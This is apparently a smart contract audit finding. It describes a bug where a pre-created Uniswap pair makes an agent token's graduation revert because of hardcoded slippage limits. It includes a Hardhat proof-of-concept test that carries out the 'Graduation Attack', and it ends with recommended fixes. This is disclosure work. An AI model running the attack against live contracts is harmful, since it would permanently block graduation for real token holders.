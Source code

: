 ## Description
The `_graduate` function allows an agent token to graduate and migrate to UniSwap by creating a pool or, if a pool exists already, supplying liquidity to this pool when a buy call successfully passes the graduation threshold. However, if a UniSwap pair is created manually before graduation, the hardcoded slippage protections will cause the `_graduate` call to revert, making it impossible for this token to successfully graduate.

## Vulnerability Details
The `buy` function has the following check to see if a token should graduate.

```solidity
function buy(
    uint256 amountIn_,
    address tokenAddress_
) external payable returns (bool) {
    // rest of the function
    uint256 reservePercentage = (newReserveA * 100) / totalSupply;
    
    if (reservePercentage <= gradThresholdPercent) {
        _graduate(tokenAddress_);
    }

    return true;
}
```

Take a look at the `_graduate` function.

```solidity
function _graduate(address tokenAddress_) private {
    // rest of the function
    address uniswapFactory = uniswapRouter.factory();
    address uniswapPair = IUniswapV2Factory(uniswapFactory).getPair(tokenAddress_, assetTokenAddr);
    
    if (uniswapPair == address(0)) {
        uniswapPair = IUniswapV2Factory(uniswapFactory).createPair(tokenAddress_, assetTokenAddr);
    }
    require(uniswapPair != address(0), "Failed to get/create Uniswap pair");

    // Set token as graduated
    Token(tokenAddress_).graduate(uniswapPair);

    (uint256 amountToken, uint256 amountAsset, uint256 liquidity) = 
        uniswapRouter.addLiquidity(
            tokenAddress_,
            assetTokenAddr,
            tokenBalance,
            assetBalance,
            tokenBalance * 95 / 100,
            assetBalance * 95 / 100,
            address(0),
            block.timestamp + 3600
        );
    
    // rest of the function
}
```

It is observed that, if a pair already exists in UniSwap, the function will simply add liquidity to the existing pool with hardcoded slippage values. However, these slippage values are not set according to the current existing balances of the tokens in the UniSwap pair. This causes the call to revert due to slippage protection, making it impossible for this token to graduate if the UniSwap pair does not satisfy the slippage protection that is implemented.

## Proof of Concept
Implement the following test in the `Manager.test.ts` file and run it to observe the vulnerability.

```javascript
describe("Graduation Attack", function() {
    it.only("does not graduate if pair is created beforehand", async function() {
      const { manager, router, factory, alice, bob, assetToken } = context;
      
      console.log("\n=== Starting The Test ===");

      // 1. Launch token with proper initial liquidity (2k USDC)
      console.log("\n1. Launching Token...");
      const purchaseAmount = ethers.parseEther("2000");
      await assetToken.connect(alice).approve(await manager.getAddress(), purchaseAmount);
      
      const tx = await manager.connect(alice).launch(
        "Test Agent",
        "TEST",
        "Test prompt",
        "Test intention",
        "https://test.com",
        purchaseAmount
      );
      
      const receipt = await tx.wait();
      const event = receipt.logs.find(log => log.fragment?.name === "Launched");
      const agentToken = await ethers.getContractAt("Token", event.args.token);
      const agentTokenAddress = await agentToken.getAddress();

      // Get initial pair info and metrics
      const pair = await ethers.getContractAt("IPair", await factory.getPair(agentTokenAddress, await assetToken.getAddress()));
      const [initialReserveAgent, initialReserveAsset] = await pair.getReserves();
      console.log("\nInitial State:");
      console.log("Initial Agent Reserve:", ethers.formatEther(initialReserveAgent));
      console.log("Initial USDC Reserve:", ethers.formatEther(initialReserveAsset));
      
      const tokenData = await manager.agentTokens(agentTokenAddress);
      console.log("\nInitial Metrics:");
      console.log("Volume:", ethers.formatEther(tokenData.metrics.vol));
      console.log("Market Cap:", ethers.formatEther(tokenData.metrics.mktCap));
      console.log("Liquidity:", ethers.formatEther(tokenData.metrics.liq));
      console.log("Graduation Threshold:", await manager.gradThresholdPercent(), "%");
      
      // 2. Bob buys tokens
      console.log("\n2. Attacker (Bob) buying tokens...");
      const buyAmount = ethers.parseEther("50");
      await assetToken.connect(bob).approve(await router.getAddress(), buyAmount);
      await manager.connect(bob).buy(buyAmount, agentTokenAddress);
      
      const bobAgentBalance = await agentToken.balanceOf(await bob.getAddress());
      console.log("\nPost-Buy State:");
      console.log("Bob's Agent Balance:", ethers.formatEther(bobAgentBalance));
      
      const [postBuyReserveAgent, postBuyReserveAsset] = await pair.getReserves();
      console.log("Post-Buy Agent Reserve:", ethers.formatEther(postBuyReserveAgent));
      console.log("Post-Buy USDC Reserve:", ethers.formatEther(postBuyReserveAsset));
      
      // 3. Create malicious Uniswap pair
      console.log("\n3. Creating malicious Uniswap pair...");
      const uniswapRouter = await ethers.getContractAt(
        "IUniswapV2Router02",
        await manager.uniswapRouter()
      );
      
      const tinyAmount = ethers.parseEther("1");
      await assetToken.connect(bob).approve(await uniswapRouter.getAddress(), tinyAmount);
      await agentToken.connect(bob).approve(await uniswapRouter.getAddress(), bobAgentBalance);
      
      console.log("\nAdding skewed liquidity to Uniswap:");
      console.log("USDC amount:", ethers.formatEther(tinyAmount));
      console.log("Agent token amount:", ethers.formatEther(bobAgentBalance / 50n));
      
      await uniswapRouter.connect(bob).addLiquidity(
        await assetToken.getAddress(),
        agentTokenAddress,
        tinyAmount,
        bobAgentBalance / 50n,
        0,
        0,
        await bob.getAddress(),
        Math.floor(Date.now() / 1000) + 3600
      );
      
      // 4. Attempt graduation - should revert
      console.log("\n4. Alice first buy for 991 USDC");
      const graduationAmount = ethers.parseEther("991");
      const secondAmount = ethers.parseEther("0.17647");
      const thirdAmount = ethers.parseEther("0.000001");
      await assetToken.connect(alice).approve(await router.getAddress(), graduationAmount);
      await manager.connect(alice).buy(graduationAmount, agentTokenAddress);
      console.log("First buy successful");

      console.log("\n4. Attempting graduation...");
      await assetToken.connect(alice).approve(await router.getAddress(), graduationAmount);
      await manager.connect(alice).buy(secondAmount, agentTokenAddress);
      console.log("Second buy successful");

      // Final buy should fail due to graduation attempt
      let failed = false;
      try {
        await manager.connect(alice).buy(thirdAmount, agentTokenAddress);
      } catch (e: any) {
        failed = true;
        expect(e.message).to.include("INSUFFICIENT_A_AMOUNT");
      }
      expect(failed).to.be.true;
      console.log("Final buy failed as expected with INSUFFICIENT_A_AMOUNT");

      const postGrad = await manager.agentTokens(agentTokenAddress);
      console.log("\nPost-Graduation State:");
      console.log("Token graduated:", postGrad.hasGraduated);
      console.log("Is trading:", postGrad.isTrading);

      // Verify final state
      expect(postGrad.hasGraduated).to.be.false;
      expect(postGrad.isTrading).to.be.true;

      console.log("\n=== Graduation Attack Test Complete ===\n");
    });
});
```

## Impact
It will not be possible to graduate this token while the UniSwap pair does not satisfy the hardcoded slippage values.

## Recommendation
If a pair already exists, the slippage values should be dynamic according to the reserves in this pool. Alternatively, allow a configurable slippage protection that can be inputted by users during the buy call.

## Note
The Chirper AI team set the slippage protection during graduation to 0. This may let the graduation call vulnerable to sandwich attacks, but the developers stated it will be fixed in the near future.
